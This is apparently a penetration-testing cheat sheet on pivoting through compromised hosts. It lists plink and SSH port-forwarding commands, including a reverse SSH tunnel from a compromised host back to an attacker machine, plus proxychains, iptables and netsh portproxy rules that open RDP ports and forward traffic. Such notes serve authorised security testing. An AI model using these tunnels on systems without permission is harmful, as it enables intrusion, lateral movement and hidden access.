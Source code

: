 ### <--- Pivoting ---> ###

#### Plink Remote Port Forwarding ####

```plink -l $user -pw $password $attacking_machine_ip -R $attacker_port_to_open:127.0.0.1:$victim_port```

```plink.exe -R "remote port":127.0.0.1:"local port" root@"ipaddress"```

```$command 127.0.0.1:$attacker_port```

#### SSH Remote Port Forwarding ####

```ssh user@target_ip -R $remote_port:127.0.0.1:$local_port```

#### SSH Local Port Forwarding ###

```ssh user@target_ip -L $initiating_ip:$initiating_port:$target_ip:$target_port```

#### SSH Dynamic Port Forwarding ###

##### Create a Local SOCKS4 Proxy ####

*Example: ssh -D 8080 root@pwned.com*

```ssh -D $local_proxy_port -p $remote_port $target```

#### Using Proxychains ####

##### Create a reverse SSH tunnel to attacker from compromised host #####

```ssh -f -N -R 2222:127.0.0.1:22 root@kali```

#####  Create a dynamic application-level port forward on port 8080 on attacking machine #####

```ssh -f -N -D 127.0.0.1:8080 -p 2222 user@local```

##### Set proxychains  #####

```nano /etc/proxychains.conf```

```socks4 127.0.0.1 8080```

### Firewall rules ###

#### IPTables ####

*NOTE: https://www.andreafortuna.org/2019/05/08/iptables-a-simple-cheatsheet/*

```iptables -t nat -A PREROUTING -p tcp -d 1.2.3.4 --dport 422 -j DNAT --to 192.168.0.100:22```

#### Netsh ####

NOTE: http://woshub.com/port-forwarding-in-windows/

>> Important. This forwarding scheme works only for ```TCP``` ports. You WON'T be able to forward UDP ports this way. Also you CANNOT use 127.0.0.1 as connect address.

###### Check rules

```netsh advfirewall show allprofiles```

###### Create Rule

```netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow```

###### Port Forward

```netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport```

Example: ```netsh interface portproxy add v4tov4 listenport=3340 listenaddress=10.1.1.110 connectport=3389 connectaddress=10.1.1.110```

NOTE: *10.10.1.110 == Current IP address of local computer*

###### Check

```netstat -ano | findstr :$listenport```

###### Find out what process is listening to this port use its PID (in our example, the PID is 636):

```tasklist | findstr 636```

Important: *Make sure that your firewall (Windows Firewall or a third-party one that are often included into an antivirus software) allows incoming connections to the new port.*

###### Add a new Windows Firewall rule using this command:

```netsh advfirewall firewall add rule name=”forwarded_RDPport_3340” protocol=TCP dir=in localip=10.1.1.110  localport=3340 action=allow```

###### Display the list of forwarding rules in the system:

```netsh interface portproxy show all```

###### Tip. Portproxy settings can be obtained as follows:

```netsh interface portproxy dump```

###### Remove a Port Forwarding Rule:

```netsh interface portproxy delete v4tov4 listenport=3340 listenaddress=10.1.1.110```

###### Clear all current port forwarding rules:

```netsh interface portproxy reset```

###### Forward an incoming TCP connection to another computer:

```netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=192.168.100.101```

###### Another portproxy feature is an opportunity to make it look like any remote network service is operating locally:

Example: *Forward the connection from the local port 5555 to the remote address 157.166.226.25 (CNN website):*

```netsh interface portproxy add v4tov4 listenport=5555 connectport=80 connectaddress= 157.166.226.25 protocol=tcp```
